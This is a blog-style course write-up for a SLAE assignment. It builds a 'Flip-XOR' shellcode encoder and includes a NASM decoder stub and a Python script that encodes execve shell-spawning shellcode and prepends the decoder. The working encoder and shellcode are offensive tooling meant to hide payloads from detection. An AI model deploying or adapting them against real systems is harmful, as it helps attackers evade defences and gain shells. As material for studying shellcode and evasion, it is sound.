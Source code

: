 ```yaml
---
title:  Assignment 4
description: Create a Custom Encoder
order: 4
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

For this challenge we will be creating a custom shellcode encoder, specifically what I am calling a 'Flip-XOR' encoder.  This encoder will reverse the order of the shellcode, XOR each byte with a key, then prepend a decoder stub.  Let's get started!

The first challenge is decoding such a shellcode.  The following assembly file shows how we could accomplish this:

```nasm
; decoder.nasm
;  - Decode shellcode, then pass over execution

global _start

section .text
_start:

        jmp short call_decoder

decoder:
        pop esi                 ; Shellcode location
        xor ecx, ecx            ; Length of shellcode
        mov cl, 7               ; ...
        mov edi, esi            ; Decode location
        add edi, ecx            ; ...
        add edi, ecx            ; ...
        dec edi                 ; ...

decode:
        xor ebx, ebx            ; Clear carry register
        mov bl, byte [esi]      ; Decode
        xor bl, 0xAA            ; ...
        mov byte [edi], bl      ; Move
        mov byte [esi], 0x90    ; Replace with nop
        inc esi                 ; Loop
        dec edi                 ; ...
        loop decode             ; ...
        jmp short Shellcode     ; Pass over execution


call_decoder:
        call decoder
        Shellcode: db 0x2a, 0x67, 0xea, 0x69, 0x23, 0x6a, 0x9b
```

As you can see, we start with a *jmp call pop* method of retrieving the address of our shellcode, then we set up our decode function with that address and the length of the shellcode.  In addition to storing the shellcode address, we also store an address to the *end* of a duplicate range *after* the shellcode, where we'll store our decoded shellcode.

The decode function takes the byte at *esi*, XORs it with the key (0xAA), moves the result to *edi*, then replaces *esi* with a NOP (0x90).  The function then loops after incrementing *esi* and decrementing *edi*.  In graphical form, we transformed this...

```
                 ESI                                           EDI
|--decoder-stub--|---encoded-shellcode---|-----------?-----------|
EIP
```
... into this ...
```
                                      ESI EDI
|--decoder-stub--|-------nop-sled--------|---decoded-shellcode---|
                 EIP
```

Great!  The next step is to build the actual encoder, shown below:

```python
#!/usr/bin/python
# encoder.py
#  - Encode shellcode using 'Flip-XOR', then prepend decoder

import sys

if (len(sys.argv) != 1):
        print "[-] No inputs! Configure shellcode manually."
        sys.exit()

shellcode = (           # execve(/bin//sh)
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62"
"\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3"
"\x50\x89\xe2\x53\x89\xe1\x31\xc0\xb0\x0b"
"\xcd\x80"
)

key = 0xaa

length = len(shellcode)
print "Original Length: %d" % length

output = ""

# _start:
output += "\\xeb\\x1e"                  # jmp short call_decoder

# decoder:
output += "\\x5e"                       # pop esi
output += "\\x31\\xc9"                  # xor ecx, ecx
output += "\\xb1\\x%02x" % length       # mov cl, <length>
output += "\\x89\\xf7"                  # mov edi, esi
output += "\\x01\\xcf"                  # add edi, ecx
output += "\\x01\\xcf"                  # add edi, ecx
output += "\\x4f"                       # dec edi

# decode:
output += "\\x31\\xdb"                  # xor ebx, ebx
output += "\\x8a\\x1e"                  # mov bl, byte [esi]
output += "\\x80\\xf3\\x%02x" % key     # xor bl, <key>
output += "\\x88\\x1f"                  # mov byte [edi], bl
output += "\\xc6\\x06\\x90"             # mov byte [esi], 0x90
output += "\\x46"                       # inc esi
output += "\\x4f"                       # dec edi
output += "\\xe2\\xf0"                  # loop decode
output += "\\xeb\\x05"                  # jmp short Shellcode

# call_decoder:
output += "\\xe8\\xdd\\xff\\xff\\xff"   # call decoder

# Shellcode:
arr = bytearray(shellcode)
for i in range(0, length):
        # 'Flip-XOR' Encoding
        x = arr[length-1-i]
        y = x^key
        output += "\\x%02x" % y

newlength = len(output) / 4
print "Encoded Length: %d" % newlength
print "\"%s\"" % output
```

As you can see, our encoder not only encodes the provided *shellcode* with the provided *key*, it also prepends a decoder stub with the appropriate *length* and *key*.

A note on this encoder worth mentioning is that it **expands**, making use of the space after it.  This may or may not be a concern, depending on the application, but an improvement to this encoder might be eliminating the need to expand and just rearrange in-place.

You can find the all the code to this challenge at [https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_4](https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_4).

<br>
{% include preamble.md %}

[&lt;&lt; Go Back]({{ site.baseurl }})
